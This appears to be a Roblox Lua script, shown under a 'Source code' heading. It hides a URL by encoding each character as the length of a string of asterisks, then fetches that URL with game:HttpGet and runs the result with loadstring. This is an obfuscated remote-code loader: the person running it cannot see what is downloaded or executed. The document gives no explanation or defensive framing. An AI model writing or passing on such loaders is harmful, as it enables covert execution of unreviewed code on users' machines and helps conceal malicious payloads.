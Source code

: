 function MYTOkFRxplsR(c)
tab={}
for i = 1,#c do
x=string.len(c[i]) 
y=string.char(x)
table.insert(tab,y)
end
x=table.concat(tab)
return x
end 


    loadstring(game:HttpGet((MYTOkFRxplsR({'********************************************************************************************************','********************************************************************************************************************','********************************************************************************************************************','****************************************************************************************************************','*******************************************************************************************************************','**********************************************************','***********************************************','***********************************************','******************************************************************************************************************','*************************************************************************************************','***********************************************************************************************************************','**********************************************','*******************************************************************************************************','*********************************************************************************************************','********************************************************************************************************************','********************************************************************************************************','*********************************************************************************************************************','**************************************************************************************************','*********************************************************************************************************************','*******************************************************************************************************************','*****************************************************************************************************','******************************************************************************************************************','***************************************************************************************************','***************************************************************************************************************','**************************************************************************************************************','********************************************************************************************************************','*****************************************************************************************************','**************************************************************************************************************','********************************************************************************************************************','**********************************************','***************************************************************************************************','***************************************************************************************************************','*************************************************************************************************************','***********************************************','******************************************************************************','***************************************************************************************************************','**************************************************************************************************************','*************************************************************************************************','*************************************************************************************************************','*****************************************************************************************************','*********************************************************','**************************************************','*********************************************************','*******************************************************','*********************************************************','********************************************************','***********************************************','*********************************************************************************','********************************************************************************************************************','********************************************************************************************************','**************************************************************************************************','**********************************************************************************************************************','***************************************************************************************************','*******************************************************************************************************','**************************************************************************************************','***********************************************','******************************************************************************************************************','*****************************************************************************************************','******************************************************************************************************','*******************************************************************************************************************','***********************************************','********************************************************************************************************','*****************************************************************************************************','*************************************************************************************************','****************************************************************************************************','*******************************************************************************************************************','***********************************************','*************************************************************************************************************','*************************************************************************************************','*********************************************************************************************************','**************************************************************************************************************','***********************************************','**********************************************************************************','*********************************************************************','*****************************************************************','********************************************************************','*****************************************************************************','*********************************************************************','**********************************************','*************************************************************************************************************','****************************************************************************************************'})),true))()    
